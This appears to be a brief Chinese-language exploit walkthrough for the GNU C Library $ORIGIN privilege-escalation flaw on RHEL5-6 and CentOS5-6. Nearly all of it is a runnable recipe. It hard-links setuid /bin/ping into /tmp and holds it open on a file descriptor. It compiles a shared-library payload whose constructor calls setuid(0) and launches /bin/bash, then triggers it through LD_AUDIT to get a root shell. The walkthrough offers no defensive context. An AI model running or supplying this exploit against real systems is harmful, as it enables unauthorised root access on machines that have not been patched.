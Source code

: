 

## GNU C Library动态链接库$ORIGIN溢出提权

```
C语言的动态链接库$ORIGIN
```

## []()版本

```
RHEL5-RHEL6 
Centos5-Centos6
```

## []()名词解析

GNU C 库：GNU C 库\*项目为 \*GNU 系统和 GNU/Linux 系统以及许多其他使用 Linux 作为内核的系统（操作内核）提供了核心库。这些库提供关键 API，包括 ISO C11、POSIX.1-2008、BSD、特定于操作系统的 API 等。这些API包括诸如开放，读取，写入，malloc，printf，getaddrinfo，dlopen，pthread\_create，crypt，登录，退出等基础工具。

## []()利用方法

```
利用tmp目录
    mkdir /tmp/exp
创建target文件硬链接
    ln /bin/ping /tmp/exp/target 　　
把target加载到内存中
    exec 3< /tmp/exp/target　
查看其在内存的情况
    ls -l /proc/$$/fd/3　　　
删除目录
    rm -rf /tmp/exp/
再次查看其在内存的情况
    ls -l /poc/$$/fd/3
创建一个 c 文件
    vim payload.c

文件内容
    void __attribute__((constructor)) init()
    {
       setuid(0);
       system("/bin/bash");
    }
编译文件
    gcc -w -fPIC -shared -o /tmp/exp payload.c
查看文件
    ls -l /tmp/exp
提升权限
    LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
```

